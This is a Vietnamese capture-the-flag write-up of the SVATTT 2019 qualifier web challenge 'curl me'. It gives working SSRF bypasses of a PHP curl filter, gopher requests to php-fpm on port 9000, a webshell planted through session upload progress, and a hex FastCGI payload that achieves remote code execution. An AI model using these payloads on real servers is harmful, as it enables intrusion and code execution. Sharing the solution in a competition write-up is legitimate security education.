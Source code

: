 Xin chào, mình là `Vịnh (@vinhjaxt)`!

Vừa qua (03/11/2019), mình có tham gia cuộc thi SVATTT 2019 vòng sơ khảo, thuộc team `KMA PeBois`.

Sau đây, mình xin phép đại diện cho team, viết writeup bài web có tiêu đề `curl me`.

# Đề bài
```
Curl me
Source code: https://drive.google.com/file/d/10fXfOHVbtth28677oQ6Xxorgq5Tv3Dik/view
URL: http://125.235.240.170/
```

# Hint
Sau khi team mình giải được, btc cho hint, team sợ vô cùng :(
```
1. gopherus
```

# Source index.php
```php
<?php
if (isset($_GET["url"])) {
    $url = $_GET["url"];
    $parse = parse_url($url);

    if (isset($parse["scheme"]) && !in_array($parse["scheme"], array("file", "gopher"))) {
        if (!isset($parse["port"]) || $parse["port"] != 9000) {
            $path = urldecode(isset($parse["path"])?$parse["path"]:"");
            if (!preg_match("/flag/i", $path)) {
                $ch = curl_init();
                curl_setopt($ch, CURLOPT_URL, $url);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                curl_setopt($ch, CURLOPT_HEADER, false);
                $output = curl_exec($ch);
                curl_close($ch);
                die($output);
            }
        }
    }
    die("dont hack :)");
}
?>
<a href ="?url=https://pastebin.com/raw/jEwTz1cP">Curl flag</a>
```
Sau khi thấy 2 bài `curl 1` và `curl 2`, team mình nghĩ, `curl 1` sẽ phải làm cách nào đó để đọc file `/flag1` thông qua curl php.
Còn `/flag2`, muốn đọc được thì phải rce, liên quan đến php-fpm.
Hơn nữa, gần đây có cái CVE của php-fpm, chắc là cần dùng đến nó.

Với `curl 1`:
Để đọc được file `/flag1` thì ta phải bypass 2 thứ:
- parse_url với sheme được check không cho `file`, `gopher`: Cái này bypass khá đơn giản, team gửi url với scheme là `File` hay là `Gopher`
- `preg_match("/flag/i", $path)`: cái này thì coi như xong, trong suốt thời gian cuộc thi diễn ra, team mình vẫn chưa biết làm sao vượt được, sau khi kết thúc cuộc thi mới được share `File:///#/../flag1`

Với chiến lược: thôi thì đằng nào chả phải làm cái `curl 2`, làm được cái 2 rồi ăn cái 1 cũng được, team mình bắt đầu chuyển sang hướng khác.

Ban đầu, check với poc của CVE-2019-11043 (https://github.com/neex/phuip-fpizdam), không chạy.

Không sao! Chắc tác giả muốn các đội tìm hiểu sâu hơn vào cách poc hoạt động, team mình đọc blog của Orange (http://blog.orange.tw/) và improve poc: Không thành công (Sau khi kết thúc cuộc thi, mình đọc lại file cấu hình [quên tên rồi] trong thư mục /etc/nginx/snippets/ thì mới thấy nó check exists rồi, khá là không chú ý gây mất thời gian)

OK, không sao, còn nữa, port 9000, nếu mà vượt được thì chắc là hay ho =)).

Sau khi có tin nhắn `Ém flag à em =))`, mình thấy `PeBois` sắp thành `Phế Bois` rồi =)), bắt đầu fuzz lại cái parse_url hy vọng kiếm được chút đỉnh để vượt qua cơn khó khăn này.

Thật may mắn, payload `?url=Gopher:/127.0.0.1:9000`
với php:
```php
php > var_dump(parse_url("Gopher:/127.0.0.1:9000"));
array(2) {
  ["scheme"]=>
  string(6) "Gopher"
  ["path"]=>
  string(15) "/127.0.0.1:9000"
}
```
nhưng với curl:
```bash
$ curl 'Gopher:/127.0.0.1:9000' -v
*   Trying 127.0.0.1:9000...
* TCP_NODELAY set
* connect to 127.0.0.1 port 9000 failed: Connection refused
* Failed to connect to 127.0.0.1 port 9000: Connection refused
* Closing connection 0
```
Đến đây thì coi như toang (vượt được check port 9000), con đường thênh thang rộng mở mà rce vào thôi.

Để rce, team mình có 2 phương án:
- Thực hiện giống poc của CVE-2019-11043: Cách này đòi hỏi race condition quyết liệt
- Tham khảo poc CVE-2019-11043, thực hiện php session upload injection (cái này mình không biết gọi thế nào cho đúng :((, lấy từ ý tưởng lúc chơi `balsnctf`) và php-fpm (giống với SVATTT 2018 Quals của tác giả [@haxor](https://www.facebook.com/haxor.1337.xxx))

Không chần chừ, team mình chọn cách 2:

Đề thực hiện cách này, team mình cần:
- Một session của php
- Inject shell vào session đó bằng việc upload
- Include session đó sử dụng gopher để thay đổi setting auto_prepend_file của php-fpm và gọi shell

OK! Giải quyết từng vấn đề một:
- Để có được session, team mình sử dụng gopher, thay đổi setting `session.auto_start=1` của php-fpm

Sử dụng script (https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) để gen với php-fpm params:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "session.auto_start=1"
).to_s
```
Sau khi gửi lên server, team mình có session của php `mhjuo9kbjf5fpkv0c2sk11mclo` (trả về dạng: `Set-Cookie: PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo`)

- Để inject shell vào session này, team mình thực hiện upload liên tục lên server:
```js
      {
        method: 'POST',
        url: 'http://125.235.240.170/info.php?0=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo',
        headers: {
          Connection: 'close',
          Cookie: 'PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo'
        },
        formData: {
          PHP_SESSION_UPLOAD_PROGRESS: 'XXXXXvinhjaxtXXXXX',
          f: {
            value: `A`.repeat(100 * 1024),
            options: {
              filename: `<?php $v=chr(47).'getflag'; echo \`$v\`; ?>`, // Đọc flag2 nè
              contentType: 'image/jpeg'
            }
          }
        }
      }
```
- Để thực thi shell, team mình gửi request thay đổi `auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo` của php-fpm

Thực hiện script fastcgipacket.rb với custom:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo"
).to_s
```
Sau đó gửi nhiều lần payload này lên server bằng cách chạy nhiều lần script sau (bằng tay :p):
```php
<?php
$out = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x00\x93\x03\x00\x0e\x03\x52\x45\x51\x55\x45\x53\x54\x5f\x4d\x45\x54\x48\x4f\x44\x47\x45\x54\x0f\x17\x53\x43\x52\x49\x50\x54\x5f\x46\x49\x4c\x45\x4e\x41\x4d\x45\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x69\x6e\x64\x65\x78\x2e\x70\x68\x70\x0f\x47\x50\x48\x50\x5f\x41\x44\x4d\x49\x4e\x5f\x56\x41\x4c\x55\x45\x61\x75\x74\x6f\x5f\x70\x72\x65\x70\x65\x6e\x64\x5f\x66\x69\x6c\x65\x3d\x2f\x76\x61\x72\x2f\x6c\x69\x62\x2f\x70\x68\x70\x2f\x73\x65\x73\x73\x69\x6f\x6e\x73\x2f\x73\x65\x73\x73\x5f\x6d\x68\x6a\x75\x6f\x39\x6b\x62\x6a\x66\x35\x66\x70\x6b\x76\x30\x63\x32\x73\x6b\x31\x31\x6d\x63\x6c\x6f\x00\x00\x00\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00";
echo PHP_EOL,file_get_contents("http://125.235.240.170/index.php?url=".rawurlencode("Gopher:/127.0.0.1:9000/_".rawurlencode($out))), PHP_EOL;
```
Thật may mắn, trong một lần gửi lên, server trả về cho mình:
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-13-44.png)

Và một chút thay đổi để lấy được `/flag1`
```js
filename: `<?php $v=chr(47).'flag1'; echo file_get_contents($v); ?>`,
```
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-14-44.png)

OK, vậy là xong. Team mình khá vui và gỡ bỏ một số áp lực.
Cảm ơn các bạn/anh/chị/em đã theo dõi writeup, cảm ơn tác giả của challenge, cảm ơn team.
Nếu có góp ý, liên hệ, trao đổi, mọi người vui lòng liên lạc qua:
- Fb: http://fb.com/i.am.Ioser
- Discord: @vinhjaxt#2733
- Twitter: @vinhjaxt

# Tham khảo thêm
- https://www.zybuluo.com/shaobaobaoer/note/1214441
- http://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html

# P/S
Sau khi mình chia sẻ bài writeup này, mình mới được khai sáng rằng cách làm của team mình khá là hardcore. Bạn đọc quan tâm cách làm đơn giản hơn vui lòng tham khảo: https://github.com/tarunkant/Gopherus

